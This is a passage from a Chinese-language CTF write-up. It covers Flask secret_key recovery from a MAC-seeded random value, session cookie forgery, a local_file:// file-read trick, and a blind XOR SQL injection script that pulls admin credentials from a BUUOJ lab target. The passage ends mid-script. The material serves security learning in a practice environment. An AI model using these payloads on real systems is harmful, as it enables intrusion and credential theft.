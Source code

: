 ```python
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

一开始往 flask pin 方向想了, 看到 `uuid.getnode()` 才想起来读取的是 mac 地址, 那么就存在伪随机数的问题

```python
import random
import uuid

mac = '1a:fe:f0:5d:cc:05'
n = int(mac.replace(':', ''), 16)
random.seed(n)
print str(random.random() * 233)
```

首先必须得用 python 2.7 来跑, 然后坑点是 str 会对小数点后面几位四舍五入一下, 所以最终的 secret\_key 是 `145.348233579` 而不是 `145.34823357875226`

flask-session-cookie-manager 伪造 cookie 得到 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211251840944.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211251840586.png)

看 wp 学到一个知识点, flask 环境下可以用 `local_file://` 代替 `file://`

## [Black Watch 入群题]Web

前端 webpack 打包, 开发者工具可以看到 vue 源码

简单异或 sql 注入

```python
import requests
import time

flag = ''

i = 1

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.08)
        mid = (min + max) // 2
        print(chr(mid))

        payload = 'if(ascii(substr((select(group_concat(username,\'_\',password))from(admin)),{},1))>{},1,0)'.format(i, mid)
        url = 'http://8f46cc43-6237-42d6-ae95-bee39e010ed1.node4.buuoj.cn:81/backend/content_detail.php?id=1^({})^1'.format(payload)
        res = requests.get(url)
        if 'content' in res.text:
```